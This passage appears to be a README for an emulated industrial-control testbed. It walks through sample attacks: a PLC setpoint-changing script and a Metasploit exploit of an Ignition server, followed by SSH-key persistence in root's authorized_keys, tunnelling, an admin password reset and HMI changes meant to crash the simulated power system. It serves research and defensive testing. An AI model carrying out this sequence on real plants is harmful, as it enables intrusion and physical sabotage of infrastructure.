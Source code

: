 ### Running an attack scenario
A sample 'attack' that changes setpoints on the Siemens PLC is implemented in the `plc-attack.py` script injected into the `attacker` machine.
After launching the experiment, enter the `attacker` machine and navigate to `/phenix/`.
The script is runnable with
```bash
python3 plc-attack.py <STARTUP_DELAY_SECONDS> <NUMBER_REPEATS>
```

### Running an attack scenario in virtual-only mode
A sample 'attack' is implemented through a few means to demonstrate SCEPTRE without a Hardware-In-The-Loop implementation.
1. After launching the experiment, enter the `attacker` machine and launch `msfconsole`
   * Start by finding the applicable exploit `search ignition`
   * Select the first exploit `use 3`
   * Set the required options, the RHOSTS, LHOST, and PythonPath
       ```bash
       set RHOSTS 10.117.4.70
       set LHOST 10.117.4.169
       set PythonPath python3
       ```
   * Run the exploit `exploit`
2. Add ssh keys to maintain persistence
   * On your host machine `ssh-keygen` to generate a new ssh key
   * In your metasploit session use `echo '[SSH-KEY]' > /root/.ssh/authorized_keys (you may need to create the .ssh directory)
3. Use port forwarding to get ignition designer
   * Use SSH to open a tunnel to the ignition machine `ssh root@10.117.4.70 -L 9999:localhost:8088`
   * Download the ignition designer from localhost:9999
4. Use your SSH session to restart the ignition password
   * On the ssh session `gwcmd --passwd` and reset the gateway `gwcmd -r`
   * Refresh your ignition webpage to reset the admin password
5. Connect to iginition HMI
   * Log in to the Ignition Designer application
   * Open the soap_hil-virt HMI
   * Change random settings on the HMI to crash the Power system


### Scorch Test
To  make sure that all images and scorch components are properly installed, navigate to the scorch page on phenix.
Start the scorch scenario, when it has pasued start up the ignition HMI and make sure data is ingesting into the HMI properly.
Enter the `exp-break` scorch component, and exit out of the terminal to continue the scorch deployment.
Check your elasticstack deployment to validate that zeek is ingesting packets properly.

## Scorch run example
1. When you are ready to begin an attack run, go to the Scorch tab for this experiment and click the red `Stopped` button to start a new run: